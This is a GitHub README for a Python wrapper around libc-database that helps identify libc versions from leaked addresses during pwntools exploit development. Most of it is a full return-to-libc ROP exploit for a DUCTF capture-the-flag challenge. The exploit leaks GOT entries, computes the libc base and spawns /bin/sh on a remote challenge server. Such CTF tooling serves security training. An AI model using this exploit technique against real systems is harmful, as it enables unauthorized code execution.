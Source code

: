 # libc-resolver

A python wrapper of the awesome project https://github.com/niklasb/libc-database, a project made to determine a libc library from its runtime addresses.

This wrapper is made for pwntools exploit development, all credits for the search engine goes to niklasb.

# How to use

Clone the project and add the folder to your PYTHONPATH env variable, then simply import the module and do:
```python
from libc_resolver import libc_resolve

libc = libc_resolve({"__libc_start_main": 0x7f31aad5cfc0, "puts": 0x7f31aadbd5a0}, choice=1)
print(libc.symbols["system"])
```

## Practical exemple

Expoloit code for the returntowhat challenge from DUCTF, a simple ROP:

```python
from pwn import *
import struct
from libc_resolver import libc_resolve

exe = context.binary = ELF('return-to-what')
context.terminal = "gnome-terminal -- bash -c".split(" ")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("chal.duc.tf", 30003)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
break *0x4011ac
'''.format(**locals())

io = start()
io.recvuntil("to?\n")
offset = 56

rop = ROP(exe)
rop.puts(exe.got["__libc_start_main"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
libc_start_main = struct.unpack("<Q", leak)[0]

io.recvuntil("to?\n")
rop = ROP(exe)
rop.puts(exe.got["puts"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
puts = struct.unpack("<Q", leak)[0]

print("libc_start_main: 0x%x" % libc_start_main)
print("puts: 0x%x" % puts)

lib = libc_resolve({"__libc_start_main": libc_start_main, "puts": puts}, choice=1)
base = libc_start_main - lib.symbols["__libc_start_main"]

io.recvuntil("to?\n")
rop = ROP(exe)
rop.call(lib.symbols["execv"] + base, [next(lib.search("/bin/sh\0"))  + base, 0])
io.sendline("a" * offset + rop.chain())
io.interactive()
```
